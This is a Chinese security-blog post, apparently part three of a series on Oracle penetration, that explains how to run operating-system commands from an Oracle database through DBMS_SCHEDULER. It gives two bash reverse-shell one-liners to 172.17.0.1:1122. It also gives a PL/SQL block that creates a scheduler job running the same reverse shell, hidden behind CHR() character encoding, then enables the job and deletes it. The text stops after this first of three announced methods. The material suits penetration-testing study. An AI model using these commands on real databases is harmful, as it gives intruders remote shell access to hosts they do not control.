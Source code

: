 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/eWbMu-iX-NLT-CB2UITsNg)

**STATEMENT**

**声明**

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，雷神众测及文章作者不为此承担任何责任。

雷神众测拥有对此文章的修改和解释权。如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经雷神众测允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。

_👇点击阅读第一、二章内容_

[**Oracle 渗透利用（一）**](http://mp.weixin.qq.com/s?__biz=MzI0NzEwOTM0MA==&mid=2652492016&idx=1&sn=65dda868965a025bb78c2f4e6bb3ec9e&chksm=f2587343c52ffa55f3162b9aca445a2b7441b587d7b4157a1abdc976368c0bb63a92fb7ed84c&scene=21#wechat_redirect)

[**Oracle 渗透利用（二）**](http://mp.weixin.qq.com/s?__biz=MzI0NzEwOTM0MA==&mid=2652492148&idx=1&sn=49c2ecc215b7c8b34f41c6006c6e9ae2&chksm=f25872c7c52ffbd124be3487bf664633de406057082643f18f9555a526556695c8ad527a398c&scene=21#wechat_redirect)

前两章主要介绍了 Oracle 的体系结构、Oracle Java 支持、Oracle CLR 和 Oracle SQL 注入技巧，这一章主要介绍 Oracle 命令执行技巧。

**Oracle 命令执行技巧**

基于不同的权限，常见有三种方案可以执行命令：

DBMS_SCHEDULER、JAVA、Oracle debug

**DBMS_SCHEDULER**

该软件包的使用方式与 Windows 任务计划相似，能够指定某个任务在某时某刻执行，并且可以设置重复方式。经过实践，调用 Java 进行命令执行的优势是支持的版本能够达到 Oracle i8+，而 DBMS_SCHEDULER 软件包是从 Oracle 11g 开始支持。DBMS_SCHEDULER 软件包提供了可以从任何 PL/SQL 程序调用的调度功能和过程的集合。

 **执行频次 -  repeat_interval**

FREQ 用于指定频次计量单位：

（YEARLY, MONTHLY, WEEKLY, DAILY, HOURLY, MINUTELY, and SECONDLY），

1./bin/bash -c 'exec bash -i &>/dev/tcp/172.17.0.1/1122 <&1'

2./bin/bash -i &>/dev/tcp/172.17.0.1/1122 <&1

```
exec DBMS_SCHEDULER.CREATE_JOB(
  job_name=>'J1230', # 任务ID
  job_type=>'EXECUTABLE', 
  number_of_arguments=>2, # 参数数量
  job_action =>'/bin/bash', # 执行路径
  auto_drop=>FALSE
);
# 第一个参数
exec DBMS_SCHEDULER.SET_JOB_ARGUMENT_VALUE('J1230',1,'-c'); 
# 第二个参数
exec DBMS_SCHEDULER.SET_JOB_ARGUMENT_VALUE(
'J1230',
2, 
CHR(101) || CHR(120) || CHR(101) || CHR(99) || CHR(32) || CHR(98) || CHR(97) || CHR(115) || CHR(104) || CHR(32) || CHR(45) || CHR(105) || CHR(32) || CHR(38) || CHR(62) || CHR(47) || CHR(100) || CHR(101) || CHR(118) || CHR(47) || CHR(116) || CHR(99) || CHR(112) || CHR(47) || CHR(49) || CHR(55) || CHR(50) || CHR(46) || CHR(49) || CHR(55) || CHR(46) || CHR(48) || CHR(46) || CHR(49) || CHR(47) || CHR(49) || CHR(49) || CHR(50) || CHR(50) || CHR(32) || CHR(60) || CHR(38) || CHR(49));

exec DBMS_SCHEDULER.ENABLE('J1230'); # 开始执行

exec DBMS_SCHEDULER.DROP_JOB(job_name=>'J1230') # 删除任务
```
